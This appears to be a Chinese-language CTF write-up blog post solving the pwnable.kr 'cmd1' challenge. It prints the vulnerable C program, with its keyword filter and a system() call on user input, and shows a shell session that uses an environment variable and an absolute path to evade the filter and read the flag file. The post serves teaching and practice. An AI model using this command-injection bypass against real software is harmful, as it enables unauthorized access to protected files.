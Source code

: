 ```yaml
---
title: pwnable.kr-cmd1
date: 2018-01-28 13:26:00
tags: [pwnable.kr,PWN]
categories: CTF
---
```

## 前言
还是很有趣的题目，不过很基础，很适合我这样的新手。
## 分析
还是先贴源码`cmd1.c`
```c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
	int r=0;
	r += strstr(cmd, "flag")!=0;
	r += strstr(cmd, "sh")!=0;
	r += strstr(cmd, "tmp")!=0;
	return r;
}
int main(int argc, char* argv[], char** envp){
	putenv("PATH=/fuckyouverymuch");
	if(filter(argv[1])) return 0;
	system( argv[1] );
	return 0;
}

```
程序开头就把环境变量`PATH`置为`/fuckyouverymuch`，然后检查了第一个传入参数，通过验证后直接执行第一个参数。
但是等等，开头就开始骂人了？这能忍？老子上去就是环境变量绕过关键字检查，不用你帮老子找`cat`程序在哪，老子知道它在`/bin/`目录下面，于是就有了下面的exp
```bash
cmd1@ubuntu:~$ export a="/bin/cat /home/cmd1/flag"
cmd1@ubuntu:~$ $a
/bin/cat: /home/cmd1/flag: Permission denied
cmd1@ubuntu:~$ ./cmd1 "\$a"
mommy now I get what PATH environment is for :)
cmd1@ubuntu:~$ 

```
平复一下心情，来细细讲一下为什么。程序getflag的第一步就是绕过`filter`函数的检查，这很好办直接用环境变量就可以了。
第二步，由于程序修改了`PATH`变量，导致执行`system`函数时无法找到外部命令，只能执行内部命令，这也很好办使用绝对路径就可以了。解决代码就是上面的。
## 总结
还是很简单的一道题，但是也还是很有趣。